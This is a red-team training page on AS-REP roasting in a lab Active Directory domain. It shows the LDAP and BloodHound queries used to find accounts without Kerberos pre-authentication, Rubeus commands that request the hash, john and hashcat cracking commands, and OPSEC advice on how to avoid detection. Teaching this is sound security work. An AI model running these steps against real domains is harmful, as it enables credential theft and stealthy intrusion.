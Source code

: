 If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password. This configuration is also enabled on the User Object and is often seen on accounts that are used on Linux systems.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/preauth.png)

  

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
    [+] cn                : Oracle Service
    [+] distinguishedname : CN=Oracle Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
    [+] samaccountname    : svc_oracle
```

  

In BloodHound:

```
MATCH (u:User {dontreqpreauth:true}) RETURN u
```

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:svc_oracle /nowrap

[*] Action: AS-REP roasting

[*] Target User            : svc_oracle
[*] Target Domain          : dev.cyberbotic.io

[*] Searching path 'LDAP://dc-2.dev.cyberbotic.io/DC=dev,DC=cyberbotic,DC=io' for AS-REP roastable users
[*] SamAccountName         : svc_oracle
[*] DistinguishedName      : CN=Oracle Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\svc_oracle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

$krb5asrep$svc_oracle@dev.cyberbotic.io:F3B1A1 [...snip...] D6D049
```

  

>  **OPSEC Alert**  
>  As with Kerberoasting, don't run `asreproast` by itself as this will roast every account in the domain with pre-authentication not set. 
>  AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.  There is no /opsec option to AS-REP Roast with a high encryption type and even if there was, it would make the hash much harder to crack.

Use `--format=krb5asrep --wordlist=wordlist svc_oracle` for **john** or `-a 0 -m 18200 svc_oracle wordlist` for **hashcat**.

```
root@kali:~# john --format=krb5asrep --wordlist=wordlist svc_oracle
Passw0rd!        ($krb5asrep$svc_oracle@dev.cyberbotic.io)
```

  

>  **EXERCISE**  
>  AS-REP Roast accounts in the domain and find the corresponding 4768's in Kibana.

